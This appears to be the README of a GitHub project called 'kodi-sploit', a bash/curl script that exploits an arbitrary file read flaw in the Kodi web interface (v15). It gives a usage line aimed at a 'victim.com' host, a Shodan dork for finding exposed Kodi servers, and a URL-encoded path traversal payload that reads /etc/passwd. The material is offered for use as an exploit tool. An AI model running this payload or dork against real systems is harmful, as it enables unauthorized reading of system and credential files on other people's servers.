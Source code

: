 # kodi-sploit
Script to exploit the Kodi local file inclusion vulnerability.

# Usage

./kodi.sh victim.com /etc/passwd

# Depends:

* Curl
* Bash
* Linux (Proably works on OSX/Unix)

# From exploit-db
*Exploit Title: arbitrary file access kodi web interface*
Shodan dork: title:kodi
Date: 25-11-2015
Contact: https://twitter.com/mpronk89
Software Link: http://kodi.tv/
Original report:
http://forum.kodi.tv/showthread.php?tid=144110&pid=2170305#pid2170305
Version: v15
Tested on: linux
CVE : n/a

# The Vuln

kodi web interface vulnerable to arbitrary file read.

example:
<ip>:<port:/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd


for passwd

​(issue fixed in 2012, reintroduced in february 2015. Fixed again november
2015 for v16)
